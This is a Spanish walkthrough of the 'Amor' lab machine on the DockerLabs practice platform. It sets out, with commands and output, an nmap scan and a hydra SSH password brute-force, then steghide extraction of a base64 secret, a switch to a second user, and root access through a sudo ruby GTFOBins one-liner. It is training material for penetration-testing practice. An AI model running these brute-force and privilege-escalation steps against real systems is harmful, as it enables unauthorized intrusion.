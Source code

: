 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Amor".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh amor.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene 2 puertos abiertos, el 22 y el 80:
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
Es momento de ver si podemos acceder o conseguir informacion a traves del puerto 80, por lo que ponemos la IP en el navegador para ver que obtenemos.
Entre otras cosas, vemos que la pagina tiene varios "anuncios", entre los que se pueden ver varios nombres de usuarios como "Juan" (el cual parece que ha sido despedido) y Carlota (empleada del departamento de ciberseguridad).
Entonces, lo primero que vamos a hacer es con HYDRA intentar encontrar las credenciales tanto de Juan (no sabemos si aun siguen activas), como las de Carlota, empezando por eta ultima, ya que es mas probable que siga en la empresa:
```
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Donde encontramos la siguiente informacion util:
```
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl  <= Contraseña
1 of 1 target successfully completed, 1 valid password found
```
Una vez conseguida la credencial de "carlota", vamos a intentar acceder via SSH:
```
ssh carlota@172.17.0.2
```
Y tras poner "yes" a las fingerprints e introducir la contraseña obtenida anteriormente, estamos dentro.
En la linea de comandos, primero comprobaremos quienes somos mediante un "whoami", y despues, mediante "script /dev/null -c bash" conseguiremos un prompt "normalizado":
```
$ whoami
carlota

$ script /dev/null -c bash
Script started, output log file is '/dev/null'.

carlota@83319e9890ed:~$ 
```
Perfecto, ya estamos dentro de la maquina. Ahora vamos a investigar un poquito por los archivos y vemos que hay una imagen en la siguiente ruta:
```
carlota@83319e9890ed:~/Desktop/fotos/vacaciones$ ls -la

total 60
drwxr-xr-x 1 root root  4096 Apr 26 11:02 .
drwxr-xr-x 1 root root  4096 Apr 26 11:02 ..
-rw-r--r-- 1 root root 51914 Apr 26 11:02 imagen.jpg

carlota@83319e9890ed:~/Desktop/fotos/vacaciones$ pwd
/home/carlota/Desktop/fotos/vacaciones  <=== Nos interesa para usar "scp"

carlota@83319e9890ed:~/Desktop/fotos/vacaciones$ 

```
Nuestro siguiente paso seria conseguir esta imagen, trayendonosla a nuestro equipo para poder analizarla (posible esteganografia ??). Hay varias formas de obtener la foto, bien montando un servidor con Python (habria que comprobar si la maquina victima lo tiene instalado), bien con "scp" (Secure Copy Protocol). En este caso, para poder hacer todo desde nuestra maquina atacante, usaremos "scp", por ejemplo. Escribimos:
```
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg imagen_victima.jpg

carlota@172.17.0.2's password: 

imagen.jpg                                      100%   51KB  26.7MB/s   00:00
```
Como se puede observar, tras poner el password, obtenemos la imagen.
***NOTA:
Tambien me he dado cuenta que se podria hacer con Python porque la maquina victima lo tiene instalado. Para ello, deberiamos haber escrito:
```
python3 -m http.server 1111    <=== Pongo este puerto porque el 80 esta en uso
```
y bien desde la propia pagina web 172.17.0.2:1111 como con "wget" podemos obtener la imagen.***
Continuando con la imagen, vemos que es una simple imagen de una boda.
Lo primero de todo, sera usar "exiftool" para comprobar los metadatos:
```
exiftool imagen_victima.jpg
```
Y vemos que no hay nada interesante:
```
ExifTool Version Number         : 12.76
File Name                       : imagen_victima.jpg
Directory                       : .
File Size                       : 52 kB
File Modification Date/Time     : 2024:07:30 23:38:42+02:00
File Access Date/Time           : 2024:07:30 23:43:00+02:00
File Inode Change Date/Time     : 2024:07:30 23:38:42+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Image Width                     : 626
Image Height                    : 626
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 626x626
Megapixels                      : 0.392
```
Nuestro siguiente paso, seria como he dicho antes, intentar ver si existe algun mensaje oculto mediante "esteganografia", por lo que usaremos "steghide":
```
stehide extract -sf imagen_victima.jpg
```
A la hora de extraer el contenido, pide una contraseña y tras probar varias (carlota, imagen, admin, etc...) me he dado cuenta que simplemente dandole al "Enter" extrae el archivo O_o !!
Sin mas... prefiero no preguntar.
En fin, volviendo al tema, vemos que contiene un archivo llamado "secret.txt" al que tras hacerle un "cat", nos da una serie de caracteres en base 64.
```
ZXNsYWNhc2FkZXBpbnlwb24=
```
Por lo que es momento de decodificarlo con:
```
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```
obteniendo:
```
eslacasadepinypon#     <=== Mas adelante veremos que con la # da fallo
```
Pero, ¿y esto donde lo uso? Bueno, el siguiente paso seria ver en la maquina victima si existen mas usuarios, aparte de "carlota", asi que escribimos en la linea de comandos lo siguiente:
```
cat /etc/passwd
```
Y vemos que existen, aparte de carlota, otros dos usuarios "ubuntu" y "oscar", por lo que probaremos a ver con el usuario "oscar" en primer lugar ya que "ubuntu" suele ser mas "generico".
```
carlota@83319e9890ed:~/Desktop/fotos/vacaciones$ su oscar
Password: 
su: Authentication failure  <=== me ha fallado con la # al final

carlota@83319e9890ed:~/Desktop/fotos/vacaciones$ su oscar
Password: 

$                         <=== ha funcionado SIN la # al final
```
En mi caso, prefiero escribir primeramente un "whoami" para saber con que usuario estoy, y tambien me gusta poner un "script /dev/null -c bash" para tener un prompt "normal":
```
$ whoami
oscar

$ script /dev/null -c bash
Script started, output log file is '/dev/null'.

oscar@83319e9890ed:/home/carlota/Desktop/fotos/vacaciones$ whoami
oscar

oscar@83319e9890ed:/home/carlota/Desktop/fotos/vacaciones$
```
Es momento entonces de hacer una escalada de privilegios, por lo que probaremos primero con "sudo -l" a ver si hay suerte:
```
oscar@83319e9890ed:/home/carlota/Desktop/fotos/vacaciones$ sudo -l

Matching Defaults entries for oscar on 83319e9890ed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User oscar may run the following commands on 83319e9890ed:
    (ALL) NOPASSWD: /usr/bin/ruby
    
oscar@83319e9890ed:/home/carlota/Desktop/fotos/vacaciones$
```
Y curiosamente vemos que el binario "ruby" no necesita password, por lo que es momento de ir bien a "https://gtfobins.github.io", o en mi caso, usar "searchbins" que ya tenia instalado:
```
searchbins -b ruby -f sudo
```
obteniendo como resultado:
```
[+] Binary: ruby

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/ruby/#sudo]

	| sudo ruby -e 'exec "/bin/sh"'   <==== Linea que nos interesa
```
Ahora, COGIENDO SIEMPRE LA RUTA ABSOLUTA, escribiremos en el terminal de la maquina victima:
```
sudo /usr/bin/ruby -e 'exec "/bin/sh"'
```
Et voila !!! Ya seriamos "root". Para comprobarlo bastaria con un "whoami" y por supuesto, deberiamos escribir un " bash -p" o un "script /dev/null -c bash" para obtener nuestro querido prompt :).
```
# whoami
root

# script /dev/null -c bash
Script started, output log file is '/dev/null'.

root@83319e9890ed:/home/carlota/Desktop/fotos/vacaciones# 
```
Si ahora enredamos un poquito y nos movemos por los directorios, curiosamente vemos que en el escritorio del usuario root ("root/Desktop"), hay un archivo que se llama "THX.txt". Tras hacerle un "cat" nos da un mensaje de agrecimiento:
```
root@83319e9890ed:~/Desktop# cat THX.txt

Gracias a toda la comunidad de Dockerlabs y a Mario por toda la ayuda proporcionada para poder hacer la máquina.

root@83319e9890ed:~/Desktop#
```
Y listo, ahora si que hemos terminado la maquina "Amor". Sencillita pero entretenida :).


